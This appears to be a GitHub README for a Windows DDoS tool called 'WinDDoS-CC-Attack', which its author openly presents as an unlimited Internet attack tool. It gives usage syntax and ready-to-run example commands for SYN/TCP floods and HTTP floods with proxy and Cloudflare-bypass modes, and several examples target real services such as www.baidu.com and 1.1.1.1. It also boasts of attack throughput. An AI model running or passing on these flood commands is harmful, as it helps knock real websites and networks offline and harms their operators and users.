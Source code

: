 # WinDDoS-CC-Attack Version 1.1

Written By Unicode (ImageWorkshop)  
It's a Internet attack tool, you can use it for your attack & it has no limit  
L4 mode -DDoS  
L7 mode -CC  
I tried on 2h4g azure  
5w/s in https://dstat.cc/  XD  
****
Usage: main.exe -L7 Url threads time mode [proxy]  
       main.exe -L4 IP Port threads time -SYN/-tcp PacketSize(byte)  

2.Examples:
main.exe -L7 http://www.baidu.com/ 500 120 -normal proxy.txt  
main.exe -L7 http://www.baidu.com/ 500 120 -cf proxy.txt  
main.exe -L7 http://www.baidu.com/ 500 120 -normal  
main.exe -L7 http://www.baidu.com/ 500 120 -cf  
main.exe -L4 1.1.1.1 80 500 120 -SYN 65500  
main.exe -L4 1.1.1.1 80 500 120 -tcp 65500  

UDP mode has been supported but sometimes it'll crash easily (I DON'T KNOW THE REASON :(
